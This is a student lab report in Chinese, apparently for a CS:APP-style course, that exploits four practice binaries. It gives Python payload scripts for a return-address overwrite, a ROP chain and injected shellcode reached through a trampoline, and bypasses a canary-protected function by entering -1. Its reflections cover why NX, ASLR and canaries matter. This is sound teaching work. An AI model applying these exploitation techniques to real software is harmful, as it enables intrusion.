




# 栈溢出攻击实验

## 题目解决思路

### Problem 1: 

- **分析**：
    1. **漏洞定位**：
       通过 `objdump -d problem1` 反汇编查看代码，发现 `main` 函数调用了 `func` 函数 (`0x401232`)。在 `func` 函数中，存在如下关键指令：
       ```assembly
       401246: 48 8d 45 f8          lea    -0x8(%rbp),%rax
       401250: e8 5b fe ff ff       call   4010b0 <strcpy@plt>
       ```
       程序使用 `strcpy` 将用户输入复制到栈上，且未校验输入长度，造成了栈溢出漏洞。
    
    2. **偏移量计算**：
       根据汇编指令 `lea -0x8(%rbp),%rax` 可知，缓冲区的起始地址位于 `%rbp - 8`。
       在 x86-64 架构中，栈帧结构如下（从低地址到高地址）：
       - **Buffer**: 8 字节 (从 `rbp-8` 到 `rbp`)
       - **Saved RBP**: 8 字节 (存储在 `rbp` 指向的地址)
       - **Return Address**: 8 字节 (存储在 `rbp+8`)
       
       因此，要覆盖返回地址，我们需要填充的数据长度为：`8 (Buffer) + 8 (Saved RBP) = 16 字节`。

    3. **攻击目标**：
       查找汇编代码发现函数 `func1` (`0x401216`)。该函数内部调用了 `puts` 输出 "Yes!I like ICS!" 并调用 `exit` 正常退出。我们的目标是将 `func` 的返回地址修改为 `func1` 的入口地址 `0x401216`。

- **解决方案**：
    
    使用 Python 脚本构造 payload。我们需要先填充 16 个无意义字符（如 'A'），紧接着拼接目标地址的小端序二进制表示。

    ```python
    import struct

    # 1. 构造 Padding
    # Buffer(8 bytes) + Saved RBP(8 bytes) = 16 bytes
    padding = b'A' * 16

    # 2. 构造目标地址 (Target Address)
    # func1 的地址为 0x401216
    # 使用 struct.pack('<Q', ...) 将地址转换为 64位小端序格式 (Little Endian)
    target_addr = 0x401216    address_bytes = struct.pack('<Q', target_addr)

    # 3. 拼接完整Payload
    payload = padding + address_bytes

    # 4. 写入文件
    with open("ans1.txt", "wb") as f:
        f.write(payload)
        print(f"Payload generated. Length: {len(payload)} bytes")
    ```

- **结果**：
    
    运行命令 `./problem1 ans1.txt` 后，程序成功被劫持流并输出了目标字符串：    
    


### Problem 2: 

- **分析**：
    1.  **漏洞定位**：
        使用 `objdump` 反汇编 `problem2`，在 `func` 函数 (`0x401290`) 中发现如下指令：
        ```assembly
        4012a4: 48 8d 45 f8          lea    -0x8(%rbp),%rax
        4012a8: ba 38 00 00 00       mov    $0x38,%edx
        4012b3: e8 38 fe ff ff       call   4010f0 <memcpy@plt>
        ```
        程序使用 `memcpy` 向 `%rbp-8` 处写入了 0x38 (56) 字节的数据。由于缓冲区大小只有 8 字节，这导致了严重的栈溢出。

    2.  **偏移量计算**：        根据栈帧结构：`Buffer (8字节)` + `Saved RBP (8字节)` = **16字节**。因此，我们需要填充 16 个字节后才能覆盖到返回地址。

    3.  **攻击策略 (ROP)**：
        本题开启了 NX 保护，无法直接执行栈上的代码，且目标函数 `func2` (`0x401216`) 有参数检查：
        ```assembly
        401225: 81 7d fc f8 03 00 00 cmpl   $0x3f8,-0x4(%rbp)
        ```
        函数检查第一个参数 (`%edi`) 是否等于 `0x3f8`。在 x64 架构下，第一个参数通过 `%rdi` 寄存器传递。因此，我们需要构造一个 ROP (Return Oriented Programming) 链：        
        * 首先跳转到 `pop %rdi; ret` 指令（Gadget），将参数值从栈上加载到寄存器。
        * 在代码中找到地址 `0x4012c7` 处恰好是 `pop %rdi; ret`。
        * 紧接着填入参数值 `0x3f8`。
        * 最后填入目标函数 `func2` 的地址。

- **解决方案**：    
    使用 Python 脚本生成 payload (`ans2.txt`)：

    ```python
    import struct

    # 1. Padding: Buffer (8 bytes) + Saved RBP (8 bytes)
    padding = b'A' * 16

    # 2. Gadget Address: pop rdi; ret    
    # 用于把栈上的数据弹入 rdi 寄存器作为参数
    # 地址来源于 0x4012c7
    pop_rdi_addr = 0x4012c7

    # 3. Argument: 目标要求的参数值0x3f8
    arg_value = 0x3f8

    # 4. Target Function: func2 Address
    func2_addr = 0x401216

    # 5. 构造 Payload
    # 栈布局: [Padding] -> [pop_rdi_addr] -> [0x3f8] -> [func2_addr]
    payload = padding
    payload += struct.pack('<Q', pop_rdi_addr)
    payload += struct.pack('<Q', arg_value)
    payload += struct.pack('<Q', func2_addr)
    # 写入文件
    with open("ans2.txt", "wb") as f:
        f.write(payload)
        print("Payload'ans2.txt' generated.")
    ```

- **结果**： 


### Problem 3: 

- **分析**：
    1.  **漏洞定位**：
        通过 `objdump -d problem3` 反汇编查看 `func` 函数 (`0x401355`)。关键代码如下：
        ```assembly
        401373: 48 8d 45 e0          lea    -0x20(%rbp),%rax
        401377: ba 40 00 00 00       mov    $0x40,%edx
        401382: e8 69 fd ff ff       call   4010f0 <memcpy@plt>
        ```
        程序使用 `memcpy` 向 `%rbp-0x20`（即 32 字节大小）的缓冲区写入了 `0x40`（64 字节）的数据。        **溢出计算**：`32 bytes (Buffer)` + `8 bytes (Saved RBP)` = **40bytes**。这意味着我们需要填充 40 字节后，才能覆盖到返回地址。

    2.  **攻击策略 (Trampoline & Shellcode)**：
        * **环境特征**：本题没有开启 NX 保护，意味着我们可以将机器码（Shellcode）注入栈中并执行。但是，题目模拟了栈地址随机化（或环境本身具有 ASLR），我们无法预知 Shellcode 在内存中的绝对地址，因此不能硬编码跳转地址。
        * **利用 Trampoline (跳板)**：观察代码发现，`func` 函数入口处将栈指针 `%rsp` 保存到了全局变量 `saved_rsp` 中。同时，代码中存在一个特殊的函数 `jmp_xs` (`0x401334`)：
            ```assembly
            40133c: 48 8b 05 cd 21 00 00 	mov    0x21cd(%rip),%rax  # 取出 saved_rsp
            401347: 48 83 45 f8 10       	addq   $0x10,-0x8(%rbp)   # 加 0x10
            ...
            401350: ff e0                	jmp    *%rax              # 跳转
            ```
            分析可知，`jmp_xs` 会跳转到 `saved_rsp + 0x10` 的地址。
            在 `func` 中，栈顶 `%rsp` 位于 `%rbp-0x30`，因此 `saved_rsp + 0x10` = `%rbp-0x20`。这恰好是我们**缓冲区的起始地址**。
        * **攻击链**：我们将 Shellcode 放在缓冲区开头 -> 填充剩余空间 -> 将返回地址覆盖为 `jmp_xs` 的地址 (`0x401334`)。这样函数返回时，会先跳到 `jmp_xs`，再被“弹射”回栈上的 Shellcode 执行。

    3.  **Shellcode 构造**：
        题目要求输出幸运数字 114。通过查找 `func1` 函数 (`0x401216`)，发现它判断第一个参数 (`%edi`) 是否为 `0x72` (即十进制 114)。        因此我们需要编写汇编指令：
        * `mov $0x72, %rdi` (设置参数)
        * `mov $0x401216, %rax` (准备调用地址)        * `call *%rax` (调用函数)

- **解决方案**：
    
    编写 Python 脚本 (`solve_prob3.py`) 生成 Payload。脚本集成了 Shellcode 汇编、NOP 填充以及返回地址覆盖。

    ```python
    import struct

    # 1. 构造 Shellcode    # 目标：调用 func1(114) -> func1地址: 0x401216, 参数: 0x72
    # 机器码对应的汇编指令：
    # mov rdi, 0x72
    # mov rax, 0x401216    # call rax
    shellcode = b"\x48\xc7\xc7\x72\x00\x00\x00"  # mov rdi, 0x72
    shellcode += b"\x48\xc7\xc0\x16\x12\x40\x00" # mov rax, 0x401216    shellcode += b"\xff\xd0"                     # call rax

    # 2. 构造 Padding
    # 缓冲区大小(32) + Saved RBP(8) = 40 字节    # 使用 NOP (\x90) 填充 Shellcode 之后的空余空间
    padding_len =40 - len(shellcode)
    padding = b"\x90" * padding_len
    # 3. 覆盖返回地址
    # 覆盖为 jmp_xs 的地址 (0x401334)
    # 当 func 返回时，跳转到 jmp_xs，jmp_xs 再跳转回栈缓冲区的开头
    jmp_xs_addr = 0x401334    ret_addr = struct.pack('<Q', jmp_xs_addr)

    # 4.生成最终文件
    payload = shellcode + padding + ret_addr

    with open("ans3.txt", "wb") as f:
        f.write(payload)
        print("Payload'ans3.txt' generated successfully.")
    ```

- **结果**：
    
    运行 `./problem3 ans3.txt`，程序成功利用栈内的 Shellcode 进行了跳转并传参，输出了包含幸运数字的提示：


### Problem 4: 

- **分析**：
    1.  **Canary 保护机制分析**：
        Problem 4 开启了栈溢出保护（Stack Protector/Canary）。通过反汇编 `func` 函数 (`0x135d`)，我们可以清晰地看到其工作原理：
        * **Canary 植入**：
            ```assembly
            136c: 64 48 8b 04 25 28 00 	mov    %fs:0x28,%rax
            1375: 48 89 45 f8          	mov    %rax,-0x8(%rbp)
            ```
            函数开始时，从 `%fs:0x28` 寄存器地址处读取一个随机生成的 64 位数值（Canary），并将其存储在栈帧的 `%rbp-8` 处，位于局部变量和返回地址之间。
        * **Canary 校验**：
            ```assembly
            140a: 48 8b 45 f8          	mov    -0x8(%rbp),%rax
            140e: 64 48 2b 04 25 28 00 	sub    %fs:0x28,%rax
            1417: 74 05                	je     141e
            1419: e8 b2 fc ff ff       	call   10d0 <__stack_chk_fail@plt>            
            ```
            函数返回前，取出栈上的 Canary 值与 `%fs:0x28` 处的原值进行比较。如果发生栈溢出，缓冲区的数据向高地址生长必然会覆盖 Canary，导致比较失败，程序将调用 `__stack_chk_fail` 终止运行。这意味着传统的覆盖返回地址的方法不可行。
    2.  **逻辑漏洞利用**：
        既然无法通过溢出攻击，我们需要寻找程序逻辑上的漏洞。
        * 在 `main` 函数中，程序调用 `scanf` 读取一个整数并传递给 `func`。
        * 在 `func` 函数中，存在如下关键判断：
            ```assembly
            13df: 83 7d f4 ff          	cmpl   $0xffffffff,-0xc(%rbp)
            13e3: 74 11                	je     13f6 <func+0x99>
            ...
            13fb: e8 1c ff ff ff       	call   131c <func1>
            ```
        
        程序检查传入的参数是否等于 `0xffffffff` (即十进制的 **-1**)。如果条件满足，程序将直接跳转并调用 `func1`，输出通关信息。

- **解决方案**：
    
    不需要构造复杂的二进制 Payload，只需要输入整数 `-1` 即可触发后门逻辑。


- **结果**：
    
    回答完前两个问题之后，对于第三个问题直接输入 -1，程序成功绕过保护逻辑(我也尝试过输入一个很大的数也可以哈哈哈，通过逻辑是一样的，但是似乎更符合对话？？)，输出通关提示：



## 思考与总结

通过本次实验，我深入理解了计算机系统的底层运作机制，尤其是函数调用栈（Stack Frame）的结构以及内存管理的细节。让我对攻击手段的演变和防护机制的原理有了全面的认识。

1.  **对栈帧结构的深刻理解**：
    实验的核心在于理解 `%rbp`（栈底指针）、`%rsp`（栈顶指针）以及返回地址（Return Address）在内存中的布局。我学会了如何通过汇编代码中的 `sub $0x??, %rsp` 和 `lea -0x??(%rbp), %rax` 精确计算缓冲区大小，以及如何计算覆盖返回地址所需的偏移量（Offset）。

2.  **攻击技术的进阶**：
    * **Code Injection (Shellcode)**：在没有保护的情况下（如 Problem 3），我学会了如何编写 Shellcode 并将其注入栈中，利用 NOP 滑梯和 trampoline gadget (如 `jmp_xs`) 来绕过栈地址随机化。
    * **ROP (Return-Oriented Programming)**：针对 NX（不可执行栈）保护（Problem 2），我掌握了利用现有的代码片段（Gadgets）来构造攻击链。特别是在 x86-64 架构下，参数通过寄存器（如 `%rdi`）传递，这比 x86 下直接通过栈传参更加复杂，但也更灵活。
    * **逻辑漏洞利用**：在面对 Canary 这种强力保护时（Problem 4），我认识到攻击不仅仅是针对内存破坏，更是对程序逻辑漏洞的挖掘。当强攻不可行时，通过分析汇编逻辑找到“后门”或边界条件检查缺失（如 `-1` 绕过检查）往往能起到奇效。

3.  **工具的熟练运用**：
    熟练掌握了 `objdump` 进行静态反汇编分析，以及 `gdb` 进行动态调试。特别是在 gdb 中查看寄存器状态 (`info registers`)、检查内存内容 (`x/20gx $rsp`) 以及设置断点，是验证 Payload 和排查错误的关键。

4.  **安全防御意识的提升**：
    “不知攻，焉知防”。通过模拟攻击者的视角，我深刻体会到了 `strcpy`、`scanf` 等不安全函数带来的巨大风险，也理解了现代操作系统引入 ASLR、NX 和 Canary 等保护机制的必要性。编写代码时进行严格的边界检查是保证系统安全的第一道防线。


## 参考资料
 **教材**：Randal E. Bryant, David R. O'Hallaron. *Computer Systems: A Programmer's Perspective (3rd Edition)*. Pearson, 2015. (特别是第 3 章：程序的机器级表示)
  **工具文档**：
    * *GDB Documentation*: https://sourceware.org/gdb/current/onlinedocs/gdb/
    * *GNU Binutils (objdump)*: https://sourceware.org/binutils/docs/binutils/objdump.html
